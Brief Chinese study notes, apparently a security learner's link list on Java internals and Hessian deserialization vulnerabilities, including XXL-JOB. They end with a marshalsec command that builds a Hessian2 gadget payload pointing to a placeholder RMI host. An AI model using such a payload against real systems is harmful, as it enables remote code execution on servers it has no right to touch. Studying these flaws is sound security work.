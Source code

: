 https://www.cnblogs.com/hkgov/p/14707726.html



## Socket

https://www.jianshu.com/p/7fedba847ef0

## AccessController.doPrivileged

https://tech101.cn/2019/08/15/AccessController%E7%9A%84doPrivileged%E6%96%B9%E6%B3%95%E7%9A%84%E4%BD%9C%E7%94%A8

主要是涉及一个权限问题,它会执行run中的代码

## javassist

https://www.cnblogs.com/nice0e3/p/13811335.html

https://www.cnblogs.com/rickiyang/p/11336268.html

```java
makeClassInitializer()	 制作一个空的类初始化程序（静态构造函数）。
insertClassPath()	      修改类搜索路径
```

## java后台执行

https://jayl1n.github.io/2020/02/13/java-nohup-implementation/ 应该是awd或者自己平时服务器运行jar包的时候才能用到

## Hession

原理:https://www.cnblogs.com/shangxiaofei/p/4222170.html

https://paper.seebug.org/1131/#_1  主要触发是因为在反序列化`Map`的时候会触发`Map.put()`,从而触发`Map.putVal->key.hashCode->key.equals`等一系列操作

https://www.mi1k7ea.com/2020/01/25/Java-Hessian%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/#%E8%B0%83%E8%AF%95%E5%88%86%E6%9E%90

https://www.mi1k7ea.com/2021/04/22/XXL-JOB-Hessian2%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/#0x00-%E5%89%8D%E8%A8%80

```cmd
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.Hessian2 SpringAbstractBeanFactoryPointcutAdvisor rmi://x.x.x.x:1099/ic9mnr > xxl.ser
```
